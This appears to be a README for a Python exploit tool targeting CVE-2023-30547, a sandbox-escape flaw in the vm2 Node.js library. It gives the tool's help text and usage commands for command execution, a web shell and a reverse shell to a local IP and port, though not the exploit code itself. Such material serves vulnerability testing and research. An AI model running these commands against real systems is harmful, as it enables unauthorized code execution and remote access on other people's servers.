

# CVE-2023-30547

## Vulnerability description
vm2 is a sandbox that can run untrusted code with whitelisted Node's built-in modules. 
There exists a vulnerability in exception sanitization of vm2 for versions up to 3.9.16, allowing attackers to raise an unsanitized host exception inside `handleException()` which can be used to escape the sandbox and run arbitrary code in host context.
## CVE-2023-30547.py
This tool is a simple python script that can be used to explore the vulnerability. It has 4 modes:
- `check`: checks if the target is vulnerable.
- `command_execution`_execution: executes a command on the target.
- `web_shell`: opens a web shell on the target.
- `reverse_shell`: opens a reverse shell on the target.
### Help
```plaintext
usage: CVE-2023-30547.py [-h] -m {check,command_execution,web_shell,reverse_shell} -t TARGET [-c COMMAND] [-p PORT] [-i IP]

Tool for exploring CVE-2023-30547. 

options:
  -h, --help            show this help message and exit
  -m {check,command_execution,web_shell,reverse_shell}, --mode {check,command_execution,web_shell,reverse_shell}
                        Mode to run the tool in.
  -t TARGET, --target TARGET
                        Target to run the tool against.
  -c COMMAND, --command COMMAND
                        Command to execute in exploit mode.
  -p PORT, --port PORT  Local port to use for reverse shell.
  -i IP, --ip IP        Local ip to use for reverse shell.

```

### Usage
```bash
python3 CVE-2023-30547.py -m check -t http://url.com/run
python3 CVE-2023-30547.py -m reverse_shell -t domain.com/run -p 1234 -i 10.10.10.10
python3 CVE-2023-30547.py -m web_shell -t domain.com/run
python3 CVE-2023-30547.py -m command_execution -t domain.com -c 'whoami'
```

### References:
- https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244
- https://nvd.nist.gov/vuln/detail/CVE-2023-30547